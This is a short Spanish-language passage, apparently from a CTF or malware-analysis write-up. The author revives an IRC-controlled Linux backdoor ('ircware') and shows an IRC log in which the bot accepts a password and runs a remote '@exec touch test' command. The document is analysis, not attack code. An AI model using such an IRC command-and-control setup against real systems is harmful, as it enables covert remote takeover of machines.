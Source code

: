 Me conecto al servidor a la sala “#secret” y ejecuto el binario parcheado:
```
$ irssi
	/connect irc.freenode.net
	/join #secret
...
16:44 -!- playerRed [~playerRed@xxxxx] has joined #secret
16:54 -!- ircware_4552 [~ircware@xxxxx] has joined #secret
16:55 < playerRed> @pass ASS3MBLY
16:55 < ircware_4552> Accepted
16:55 < playerRed> @exec touch test
16:55 < ircware_4552> PRIVMSG #secret :Done!
```

En la ruta que he ejecutado el binario aparece el siguiente fichero vacío “'test'$'\r'”. He conseguido hacer que este malware vuelva a estar operativo. Se trata de un malware que permite tomar el control de un sistema Linux de 64bits con un alto nivel de anonimato por su dificil trazabilidad, ya que se controla a través de un servidor IRC público.

